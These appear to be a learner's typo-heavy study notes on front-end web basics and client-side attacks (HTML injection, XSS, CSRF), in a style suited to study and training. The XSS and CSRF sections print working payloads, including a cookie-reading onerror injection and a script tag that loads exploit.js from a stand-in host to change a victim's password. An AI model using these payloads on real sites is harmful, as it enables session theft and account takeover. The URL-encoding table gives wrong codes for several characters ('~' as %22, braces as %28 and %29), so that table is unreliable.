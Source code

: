 # HTLM
The first and most dominant component of the frontend of web app is HypertextMarkUpLenguage. Ia a very core of any page we see in th internert.
```html
<!DOCTYPE html>
<html>
    <head>
        <title>Page Title</title>
    </head>
    <body>
        <h1>A Heading</h1>
        <p>A Paragraph</p>
    </body>
</html>


```
Estructure:
docuemnt
- html
    - head
        - title
    - body
        - h1
        - h2
Each HTML eleement opened and cloesed with a tag the specified the element id or class. `<p id='par1> or <p id='red Paragraph'>`

### URL Encoding:
An important concpet to learn in HTLM is URL Encoding, or percent-encoding, browser to properly display a page's contents, it has to know to charset in use.
Browser can only use ASCII encoding, which only allows alphanumerical characters and certain special characters.
All other characters outside os the ASCII characters-set have to be encoded within a URL. URL encoding replaces unsafe ASCII characters with a % symbol.
| Characters  | Encoding |
| -------------- | --------------- |
| !  | %21 |
| ~  | %22 |
| # | %23 |
| $ | %24 |
| % | %25 |
| & | %26 |
| '| %27 |
| {| %28 |
|  }| %29 |

Page of the full characters [here](https://www.w3schools.com/tags/ref_urlencode.ASP)
Many tools has the funtion encoding to decoding.
### Uasage:
The <heas> element usually contains elements thaty are not directly printed on the page, like tha page title, while all main page element are located under the <body>.
Others imporants tags are the <style> for the CSS and the <script> for the JS.
Each of this elements are calle a DOM(DOcument Obj Model), define as:
The W3X document Object model (DOM) is a plataform and lenguage-neutral interface that allows programs and scripts to dynamically access and update the content, stucture
and style document.

The DOM standard is separate into 3 parts:
- Core DOM - the standard model for all document types.
- XML DOM - the standard model for XML documents.
- HTML DOM - The standard model for HTML documents.

## Cascading Style SHeets(CSS):
CSS is the stylesheet used alongside HTML to format and set the style the elements, example:
```css
body {
  background-color: black;
}

h1 {
  color: white;
  text-align: center;
}

p {
  font-family: helvetica;
  font-size: 10px;
}


```
### Syntax:
The style of each element curly brackets{}, within which the properties are defined with their values.
Each HTML element has many properties thaty can be set through CSS[Heigh, position, border, padding].
CSS can be used for advanced animations for a wide variety of use, from moving item all the way to advanced 3D animation.
CSS animations [here](https://www.w3schools.com/css/css3_animations.asp) and the structure is like @keyframesm animations...

### Usage:
The showns that even HTML and CSS are among the mos basic cornestones of web dev when used, properly, they can be used to build visually stunnin web pages
and make it interact.

### Frameworks:
These Frameworks optimitted for web app usage, are designed to be used with JS and for wide use within a web app and contain elements usually required within modern web app.
Most common frameworks:
- Bootstrap
- SASS
- Foundation
- Bulma
- Pure

## Javascript:
Javascript is one of the most used languages in the world, it's most usage lenguage in the world. Is usually used on the front end of an ap to be execute
within a browser.
While HTML and CSS are mainly charge of how pages looks, JS is usually to control any funcionality that web required.
```js
document.getElementById("button1").innerHTML = "Changed Text!";
```
Page for test JS [here](https://jsfiddle.net/)

### Usage:
Most common web app heavily rely on JS to drive all needed funtionality onm the web app, like uploading the web page view in real-time, dynamically
uploading content in real-time, accepting and processing user input, and many iter petencial funcionalities.
Js is also used to automate complex processes and perfrom HTTTP requests to interact with the backend componenets and send an retrive data, thought the tech
like Ajax.
### Frameworks:
Most common frameworks:
- Angular
- React
- Vue
- jQuery

## Sensitivedata Explosure:
All the front end comopennts we converd are interacted with a cliend side, as these compopnetnts are executed on the client-side, they put  the end-user in danger of being
attacked and exploited if they do have vulnerabilities.
Majority od web app pentest is focused on backend components.
Sensitive Data Exposure referes to the availability of sensitive rdata in clear-text to the end-user, this is usually in the source code of the web pages or pages source on th front end
web app.
This is the HTML source code od the app, not be confused with the back en code. [View Source Code, or Bursuite or URL(view-source:https://)], sometimes find some credentials
or hashes.
### Prevention:
Only put the necessary information on the frontend code, also is important to classify the data type with the source code and apply controls on what can or cannot be exposed
on the client side.
Front-end dev may want to use JS code packing or obfuscation to reduce the chances od exposing sensitive data.

## HTML Injection:
This occurs when unfiltered user input is displayed on the page, This can be through retrivering previusly sumitteed code, like retreiving a user comment from the back end database,
or directly displayin unfiltered user input through JS.
When a user has complete the control of how their input will be displayed, can sumbimt HTML code, and the browser may display it was part of the page.
This may include the malicius HTML code, like external login form, which can be used to trick user into loggin in whuile actually sending their login.
If no input sanitazion in place, this is potencially an ez tageted for HTML Injection and Cross-Site Scripting(XSS) attack.
To test HTML injection, we can simply input a small snipped of HTML code as our name, and see if it desplayed as part of page.
`<style> body { background-image: url('https://academy.hackthebox.com/images/logo.svg'); } </style>`

## Cross-Site Scripting (XSS)
HTML injection vulnerabilities can often be utilized to also perfrom XSS attacks by injection JS code to be executeed on the client-side.
XSS is very simi lar to HTML injection, this involves the injection of JS codeto perform mor advanced attacks on the client-side, insted of marely injectio HTML.

| Type  | Description|
| -------------- | --------------- |
| Reflected XSS | Occurs when user input is displayed on the page after processing result or error.|
| Stroerd XSS| Occurs when user input is stored in the back en data basse and then displayed upon retriveral.|
| DOM XSS| Occurs when user input is directly shown n the browser and is written to an HTML DOM obj.|

Injection to following DOM XSS JS code as a payload, which should show us tho cookie value from current user.
`#"><img src=/ onerror=alert(document.cookie)>`
This payload is accesing the HTML docuemnt tree and retrivering the cookie obj value, When the browser processes our input, it will be considered a new DOM, and our
JS will be executed, displaying the cookie value back to us in a popup.

## Cross-Site Request Forgery(CSRF)
This attack utilize XSS vulnerabilities to perfrom certain quieries, and API calls on a web app thayt the victim is currently auth.
This would allow the attacker to perform actions as the auth user, may also utilize other vulnerabilities to perform the same funtions.
A common CSRF attack to gain higher privilegeed access to a web app os to craft a JS payload automatically chganges the vitims pass to the value set by the attacker.
Once the victim views the payload on the vulnerable page, malicius comment containing the JS CSRF.
CSRF can be leveraged to attack admins and gain ascess to their acc, admins usually have access to sensitive funtions, whichj can sometimes be used to attack and gain control over
the back-end server.
`"><script src=//www.example.com/exploit.js></script>`, the exploit.js file would contain the malicius js code that changes the user's pass in this case requires knowledge of
this web apps pass changing precedure APIs.

### Prevention:
Its also always important to filter and sanitaze user input on the front end before reaches the back end, asn especially is this code may be displayed directly on the
client-side without communication with the backend. Control must be applied:
| Type | Description |
| -------------- | --------------- |
| Sanitization| Removing special characters and non-standard characters from user input before displying it or stroing it.|
| Validation| Ensuring that submitted user input matches the expected format.|

Once we sanitiz and validate user input and diplayed output, we should  be able to prenvent attacks like HTML Injection, XSS or CSRF.
Solution would be to implement a web app firewall (WAF), which should help to prevent injection attemps automatically.
Many Moderns web app have anti-CSRF mesures, including certain HTTP headers and flags that cann prevent automated requests.


